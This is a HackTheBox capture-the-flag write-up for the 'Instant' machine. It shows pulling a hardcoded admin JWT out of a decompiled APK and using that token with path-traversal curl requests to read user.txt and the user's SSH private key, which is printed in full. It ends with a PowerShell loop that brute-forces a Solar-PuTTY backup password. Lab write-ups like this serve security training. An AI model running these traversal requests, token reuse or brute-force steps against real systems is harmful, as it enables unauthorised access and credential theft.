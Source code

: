 ```yaml
---
layout: post
title: "Instant"
date: 2024-12-28
categories: hackthebox
---
```



starting with nmap 

```bash
sudo nmap  -sC -sV -T4 -p- -oN instant 10.129.198.124
```

![[Pasted image 20241015232055.png]]


just a website 

```
add instant.htb to /etc/hosts
```

this website had a link to download an ==apk ==file other than that nothing really interesting

using apktool , let's decompile this file

```bash
apktool d instant.apk -o instant-ap
```
![[Pasted image 20241015232418.png]]

after two 2000 years of scrolling on those files 

I found 2 interesting information

1 . the file /instant/instant-apk/res/xml/network_security_config.xml

mention 2 subdomains
```xml
<?xml version="1.0" encoding="utf-8"?>

<network-security-config>

<domain-config cleartextTrafficPermitted="true">

<domain includeSubdomains="true">mywalletv1.instant.htb</domain>

<domain includeSubdomains="true">swagger-ui.instant.htb</domain>

</domain-config>

</network-security-config>
```

2 . potential jwt of an admin in instant/instant/smali/com/instantlabs/instant/AdminActivities.smali

```java
.class public Lcom/instantlabs/instant/AdminActivities;
.super Ljava/lang/Object;
.source "AdminActivities.java"

move-result-object v1

    const-string v2, "Authorization"

    const-string v3, "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"

```


let's check the subdomains

it's seems like an api 

![[Pasted image 20241015233002.png]]



an intersting API , that allow the user to read log , but we are not authorized to use it 
![[Pasted image 20241015233112.png]]

```bash
curl curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=%2Fhome%2Fshirohige%2Fuser.txt" -H  "accept: application/json"
```

I tried the ==jwt key== founded earlier and it works 

```bash
curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fshirohige%2Fuser.txt" -H "accept: application/json" -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"
{"/home/shirohige/logs/../../../../../../../../home/shirohige/user.txt":["c8793e869c888292d6850a39cbc373c7\n"],"Status":201}
```


let's grab the ssh key 

```bash
 curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fshirohige%2F.ssh%2Fid_rsa" -H "accept: application/json" -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" | jq .
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1874  100  1874    0     0  16812      0 --:--:-- --:--:-- --:--:-- 16882
{
  "/home/shirohige/logs/../../../../../../../../home/shirohige/.ssh/id_rsa": [
    "-----BEGIN RSA PRIVATE KEY-----\n",
    "MIIEoQIBAAKCAQEAiOfpiPsPftIWtmWT1x9unQtR0srvDPUGhDjgjn3UEBejx2vh\n",
    "qlTJ+8NrrA1PcQeSuiGm6oB727HSZFrI6Pd5rmRUAMRzRxjwCnMqblmkKLZPv70x\n",
    "wh8AYvJf1z3UQ7TRN24kO7pL/6mDGBxxu9kKVBv0hD3AIkrCmRtplWzhWPEvVuEx\n",
    "c8ARVrE20QBOSWXu1o8dZ1h7VPlJ/lfBs0d2FVc+M9x4LCkjjrNkZhtCnVMFMq2W\n",
    "3D3JmfBZbbo1yYUXqKlbGr4D0cabK0PLb7RUZy+2HNdcNfvOIALs0pkO1FADoTgA\n",
    "fLyUlVnu70aRQdYhGx8eY/UTkDQrrZMtI5dCxQIDAQABAoH/MbTxdhprqmrfadGz\n",
    "dLRBUHp/MNsJFNMnodAwB7QsyP4Va45Be38y4L5ZCcUX3aWL0lHglRwD6akATM/h\n",
    "+mquD9HfJbtL3QzQcPQ0Qc9G2EjASAVik9zBnZxVUSDBWzQ6yLAndFZAN7RUHSPS\n",
    "9aOfUZdZxZkq+sNpNzfDXTRI7RwjQx+lrW8AVdCQzdFWLUgpKrEDW87IgacgkgXM\n",
    "TGYv+2xlNd8fN6/1NKOoH2rsptk8LxLc5wtGXmGr97WtcdZfh2oUfiSGAc50a1yb\n",
    "MggySeWqPjN2lgt1hUXqDgRXCstN3RwUN7NfpUvoE5r9J/9NCLz5RFJ4+rTYcY4v\n",
    "oRvNAoGBALwCd1frvYDD/m5R8Q5XWXXe4j2pBDA71EpvlO0eiLpJkLXEQhkct4Od\n",
    "nKZzf7lVaQdxacC4W3Swn7rB4VL+AvKQmhfVWcAp6QRYYoQ6f2VWepNaeeXfIXAg\n",
    "vdm1vg+QRToZNbyfkFhuh1OfThWdHVnwh57aZDgC+eFCS/u8mV8zAoGBALpqXwvw\n",
    "/BS7qPgnXun4pMcRXvlb/g5/kRmgaWTraDqe4kmYrphwZyBcnJyWMJBZ0NXRlXCx\n",
    "W2wrU0xoA//X9/gyOEIPckbkTQ/H+Zoo9/Dvr27ZDdOafQc84vpsWFqZu7aoUC9l\n",
    "mGHdOVpUWusTt0S8rDkFun7CPtCtRuO9RzYnAoGAdhwKg0ZKd2EpLn71s6+2OLE7\n",
    "accLJY4AcH6mjUv4Uycx7K6NY59BvkI+jebTH0gDwjRCXlqywZzPy5BPEEcY7O9g\n",
    "joZuaqUpiJxJz428SJpKSNW27Gz/YaSAAAwHiVl10+jQdF29XYCaLTNP544bSUws\n",
    "tuO1v+ZGundeqpextjcCgYBDvL9I0Ypn5kDh2zyL/EOz6kX+ikTo88W/8CAcAcZf\n",
    "9rf3UjmvPrjac4ydAZ4n9dsCtyN8TZYQ2jVsgCdj4hBC6cyzhHVb+T1fTKUQNW7S\n",
    "5+VxfAGgMHTaGm/H23LHiTFCkCqC7oHOndpnTluzK/jeS0ixd7lqsh6tKSmnO3IS\n",
    "5QKBgQC3dxOmpw1Dz8NkE1o9Lc4gALsC8Mt0K9XU8Djn0X5bzZJ7GRx+QM0tOjf5\n",
    "rHeMqTproydbKcbTF4aQ9V1RORcqgoV013eRcaKnEXLuZwg0qbBeHx5UHKwyNr7l\n",
    "x7WHyKl+y+P2Taud0Kcmd9DJ/yQJ4wFdn0cbInxpcNKthZZLhw==\n",
    "-----END RSA PRIVATE KEY-----\n"
  ],
  "Status": 201
}
```


I saved the key in file and asked chatgpt how to clean it

```bash
sed  -i 's/[[:space:]]*"//g; s/\\n//g; s/,//g' user_rsa 
chmod 600 user_rsa
ssh shirohige@instant.htb -i user_rsa
```

![[Pasted image 20241015234411.png]]

I found this backup file 
```bash
/opt/backups/Solar-PuTTY/sessions-backup.dat
```


this tool can decrypt this but we need password ,  and it's only works on windows 


so with the help of chatgpt again , I made a small powershell script to bruteforce this

```powershell

$rockyouPath = "C:\Users\d0s3nt\Documents\instant\rockyou.txt"
$decryptExePath = "C:\Users\d0s3nt\Documents\instant\SolarPuttyDecrypt.exe"
$sessionsFilePath = "C:\Users\d0s3nt\Documents\instant\sessions-backup.dat"

function Invoke-Bruteforce {
    Get-Content -Path $rockyouPath | ForEach-Object {
        $password = $_.Trim()
        try {
            # Run the decryption executable with the current password
	    Write-Host $password
            & $decryptExePath $sessionsFilePath $password
        }
        catch {
            Write-Output "Error: $_"
        }
    }
}

Invoke-Bruteforce
```

after transferring the files , and running the script

![[Pasted image 20241016025744.png]]


![[Pasted image 20241016025903.png]]